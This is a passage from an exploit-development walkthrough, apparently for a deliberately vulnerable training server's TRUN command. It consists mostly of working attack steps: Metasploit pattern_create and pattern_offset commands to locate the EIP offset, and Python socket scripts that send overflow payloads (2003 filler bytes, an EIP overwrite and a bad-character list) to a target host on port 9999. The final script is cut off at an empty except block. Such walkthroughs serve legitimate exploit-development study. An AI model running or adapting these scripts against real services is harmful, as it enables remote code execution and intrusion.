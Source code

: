 (eg, it crashes around 2500 bytes)

* * *

## FINDING_THE_OFFSET

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500`  
use output in payload

`./trun_offset.py`

```
#!/usr/bin/python3
import sys, socket
from time import sleep
offset = "paste output from pattern_create here"
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('<targetIP>',<port>))
    payload = "TRUN /.:/" + offset
    s.send((payload.encode()))
    s.close()
except:
    print ("Error connecting to server")
    sys.exit()
```

get the **EIP** value after running script (eg 386F4337 and use in command below)  
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337`  
result = exact match at offset (eg 2003 bytes)

* * *

## OVERWRITE THE EIP

`./trun_badchars.py`

```
#!/usr/bin/python3
import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
  
shellcode = "A" * 2003 + "B" * 4 + badchars
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.140.135',9999))
    payload = "TRUN /.:/" + shellcode
    s.send((payload.encode()))
    s.close()
except:
```